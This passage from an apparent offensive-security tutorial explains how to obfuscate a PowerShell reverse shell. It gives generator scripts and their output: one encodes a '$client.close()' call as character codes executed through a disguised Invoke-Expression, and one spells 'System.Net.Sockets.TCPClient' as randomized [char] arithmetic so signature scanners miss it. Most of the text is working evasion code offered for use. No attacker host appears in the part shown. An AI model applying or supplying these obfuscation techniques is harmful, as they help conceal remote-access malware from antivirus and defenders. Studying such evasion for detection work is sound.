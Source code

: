 ```powershell
# Generator
$Method = '$client.close()'
$CharArrayString = ($Method.ToCharArray() | ForEach-Object { [int][char]$_ }) -join ","
$NewValue = '<iex> ([string]::join('''', ( (<OBFUSCATED>) |%{ ( [char][int] $_)})) | % {$_})' -replace '<OBFUSCATED>', $CharArrayString -replace '<iex>', '& (("H7zdxIAG6PlRgvqZspJ2Fi1cMnOjKEV-kwWQaSfoh9tuYU3me0r4NXTBLy85DCb")[21,25,13,39,32,48,31,48,4,17,50,48,16,16,21,39,25] -join '')'

# New Value
& (("H7zdxIAG6PlRgvqZspJ2Fi1cMnOjKEV-kwWQaSfoh9tuYU3me0r4NXTBLy85DCb")[21,25,13,39,32,48,31,48,4,17,50,48,16,16,21,39,25] -join ') ([string]::join('', ( (36,99,108,105,101,110,116,46,99,108,111,115,101,40,41) |%{ ( [char][int] $_)})) | % {$_})
```

### Namespace Classes

The `New-Object` cmdlet allows us to creates instances of various types of objects. Within the reverse shell we have already taken care of the cmdlet itself, which leaves the class declaration. This is effectively just a matter of being fancy with string manipulation. If you look at our previous use case with `Write-Output "Try Harder"`, this is the same concept.

https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/new-object?view=powershell-7.1
https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_classes?view=powershell-7.1

```powershell
# Generator
$NamespaceClass = 'System.Net.Sockets.TCPClient'
$Chars = ([int[]][char[]]$NamespaceClass | ForEach-Object { 
    $OrigChar = $_
    $Random = 1..122 | Get-Random
    $Iteration = (1..3 | get-random)
    if ($Iteration -eq 1) {
        "[char]($Random+$OrigChar-$Random)"
    }
    elseif (($Iteration -eq 2)) {
        "[char]($Random*$OrigChar/$Random)"
    }
    elseif (($Iteration -eq 3)) {
        "[char](0+$OrigChar-0)"
    }
}) -join '+'
$NewValue = '$(<OBFUSCATED>)' -replace '<OBFUSCATED>', $Chars

# New Value
$([char](63*83/63)+[char](0+121-0)+[char](104*115/104)+[char](108*116/108)+[char](50*101/50)+[char](0+109-0)+[char](71*46/71)+[char](28+78-28)+[char](84+101-84)+[char](118+116-118)+[char](89+46-89)+[char](51+83-51)+[char](65*111/65)+[char](111*99/111)+[char](0+107-0)+[char](104*101/104)+[char](16+116-16)+[char](61*115/61)+[char](47+46-47)+[char](32+84-32)+[char](33+67-33)+[char](37+80-37)+[char](10*67/10)+[char](76*108/76)+[char](3*105/3)+[char](91+101-91)+[char](71+110-71)+[char](69+116-69))
```
